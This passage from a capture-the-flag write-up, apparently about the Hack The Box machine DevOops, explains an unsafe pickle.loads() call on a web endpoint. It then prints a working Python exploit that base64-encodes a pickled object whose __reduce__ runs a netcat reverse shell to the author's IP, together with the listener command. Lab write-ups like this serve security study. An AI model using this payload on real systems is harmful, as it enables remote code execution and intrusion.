 This part of the code is very dangerous. The [pickle](https://docs.python.org/2/library/pickle.html){:target="_blank"} library (and its *pickle.loads()* function) should never be used in combination with user input. Problem is that an attacker can input a malicious serialized object which gets unserialized with *pickle.loads()*, passed to *eval()* and therefore executed on the server. Baam, code execution. Not good. More about this issue can be read [here](https://blog.nelhage.com/2011/03/exploiting-pickle/){:target="_blank"}.

#### - Crafting an exploit
From the code we know that the server "safely" base64 **decodes** POST data made to `/newpost` and *pickle.loads()*. If we revert these steps - send a "safely" base64 **encoded** pickle object, we can achieve command execution. Here's my exploit:
{% highlight python %}
#!/usr/bin/env python
#payload.py
import pickle
import base64
import os
import requests
    
class payload(object):
    def __reduce__(self):
       comm = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1235 >/tmp/f"
       return (os.system, (comm,))

payload = base64.urlsafe_b64encode(pickle.dumps( payload()))

r = requests.post("http://10.10.10.91:5000/newpost", payload)
print r.data

{% endhighlight %}

This fires up a reverse shell that connects to `10.10.14.51` (my IP) at  port `1235`. Just change the parameters to your needs, set up *netcat* listener (`nc -lvp 1235`) and start the exploit. 

<a href="/img/blog/htb-devoops/htb-devoops-08.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-devoops/htb-devoops-08.png"></a>
